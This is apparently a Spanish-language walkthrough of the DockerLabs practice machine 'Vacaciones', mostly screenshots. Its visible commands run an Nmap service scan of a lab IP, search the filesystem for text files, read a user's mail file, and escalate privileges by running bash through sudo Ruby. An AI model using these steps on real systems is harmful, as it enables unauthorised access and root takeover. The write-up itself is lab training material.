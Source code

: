 
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_001.png)

Realizamos el escaneo con Nmap sobre la dirección IP 172.17.0.2 para revelar resultados.
```
nmap -p- -sS -sCV -T4 -n -Pn 172.17.0.2
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_002.png)

<h3>Análisis de los Servicios Abiertos</h3>
SSH (Puerto 22):

La versión de OpenSSH detectada es relativamente antigua (7.6p1), lo que podría ser vulnerable si no está debidamente actualizada.

HTTP (Puerto 80):

El servidor web Apache 2.4.29 también es una versión que podría tener vulnerabilidades, ya que ha habido actualizaciones importantes desde entonces. 

Lista a seguir:
investigar si existen vulnerabilidades para el puerto 22
investigar posibles exploits o revisar configuraciones incorrectas en el puerto 80

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_0021.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_003.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_004.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_005.png)
```
find / -name "*.txt" 2>/dev/null
```

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_006.png)
```
cat /var/mail/camilo/correo.txt
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_007.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_008.png)
```
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_009.png)
